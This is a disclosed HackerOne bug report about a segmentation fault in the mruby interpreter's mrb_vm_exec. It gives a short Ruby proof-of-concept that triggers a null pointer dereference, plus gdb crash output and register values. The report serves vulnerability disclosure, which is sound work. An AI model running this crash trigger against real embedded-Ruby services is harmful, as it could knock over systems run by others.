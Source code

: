 # SIGSEGV - mrb_vm_exec - line:1681

## Report Details
- **Report ID**: 197693
- **URL**: https://hackerone.com/reports/197693
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-12T00:50:11.708Z
- **Disclosed**: 2017-03-09T01:24:07.567Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC:
-------------------

The following code triggers the bug (attached as test_mrb_vm_exec_1681.rb):

	def try
	yield
	ensure
	yield end
	a=lambda do 
	  a.try do
	return end end.call

Mirb - Debug:
-------------------

	(gdb) r test_mrb_vm_exec_1678.rb 
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/x/Desktop/research/test_2/mruby/bin/mirb test_mrb_vm_exec_1678.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :try

	Program received signal SIGSEGV, Segmentation fault.
	0x00000000004291ef in mrb_vm_exec (mrb=0x6ad010, proc=0x0, pc=0x71b2d0) at /home/x/Desktop/research/test_2/mruby/src/vm.c:1681
	1681	        irep = proc->body.irep;
	(gdb) info reg
	rax            0x0	0
	rbx            0x6b9520	7050528
	rcx            0x722990	7481744
	rdx            0x6bfe20	7077408
	rsi            0x6b4710	7030544
	rdi            0x6ad010	7000080
	rbp            0x7fffffffca40	0x7fffffffca40
	rsp            0x7fffffffc4c0	0x7fffffffc4c0
	r8             0x0	0
	r9             0x7ffff7acd7b8	140737348687800
	r10            0x7ffff784ff40	140737346076480
	r11            0x7ffff7895701	140737346361089
	r12            0x401ca0	4201632
	r13            0x7fffffffe040	140737488347200